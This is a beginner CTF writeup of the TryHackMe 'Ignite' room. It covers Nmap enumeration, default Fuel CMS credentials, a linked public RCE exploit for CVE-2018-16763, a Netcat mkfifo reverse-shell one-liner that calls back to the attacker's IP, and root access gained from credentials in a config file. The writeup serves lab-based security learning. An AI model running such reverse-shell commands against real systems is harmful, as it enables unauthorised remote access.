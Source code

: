 ```yaml
---
title: Ignite Writeup | TryHackMe
date: 2022-01-21 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, ctf, boot2root, privesc, exploit]
author:
  name: v3r4x
---
```


*A new start-up has a few issues with their web server.*

## Overview

This is my writeup for the Ignite CTF.  The Ignite CTF is a free room of beginner difficulty which mainly tests your methodology.  It is very heavy on information gathering, scanning, and enumeration, as well as finding exploits.  

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/ignite

## Scanning and Enumeration

Firstly, I began with an Nmap scan:

```
$ sudo nmap -sC -sV -oN initial 10.10.183.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 00:39 BST
Nmap scan report for 10.10.183.1
Host is up (0.075s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.68 seconds

```

The initial scan shows that only port 80 is open and is running a web server.  Navigating to this shows a Fuel CMS page:

![homepage](/assets/posts/20220121/1_fuel_cms.png)

The website is running a Fuel CMS (Content Management System) application on version 1.4.  Scrolling down to the bottom also reveals a username and password combination:

![admin:admin](/assets/posts/20220121/2_admin_admin.png)

The scan also showed that there is a `/fuel` directory.  Investigating this reveals a login form:

![login](/assets/posts/20220121/3_login_form.png)

It also shows that `robots.txt` has a disallowed entry - this so happens to be `/fuel/`.

ExploitDB reveals that Fuel CMS v1.4 is vulnerable to remote code execution (RCE) using CVE-2018-16763 (found ![here](https://www.exploit-db.com/exploits/47138))

## Gaining Access

After downloading the exploit file and altering it so that it contained the target machine's IP address, I was able to gain access to the machine as the `www-data` user:

![gaining access](/assets/posts/20220121/4_gaining_access.png)

Using the following code, I was able to obtain a reverse shell using Netcat (found ![here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)):

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.150.161 4444 > /tmp/f
```

![reverse shell](/assets/posts/20220121/5_nc_reverse_shell.png)

I then upgraded my terminal using Python's `pty` module:

![upgrading terminal](/assets/posts/20220121/6_upgrading_terminal.png)

## Finding `flag.txt`

I found the flag in the `www-data` user's home directory:

![flag.txt](/assets/posts/20220121/7_flag_txt.png)

## Escalating Privileges and Finding `root.txt`

Investigating the web application's configuration, I found a `database.php` file which contained the `root` user's credentials:

![database.php](/assets/posts/20220121/8_database_php.png)

I then used these credentials to escalate my privileges into the `root` user and then found the flag within the `/root` directory:

![root.txt](/assets/posts/20220121/9_root_txt.png)

And that's it!  All done!

## Summary and Feedback

This challenge really tested my knowledge of scanning, enumeration, and finding vulnerabilities - an area which I'm desperately trying to optimise.  If you are a beginner and haven't quite got your methodology down, this machine will help you enhance it.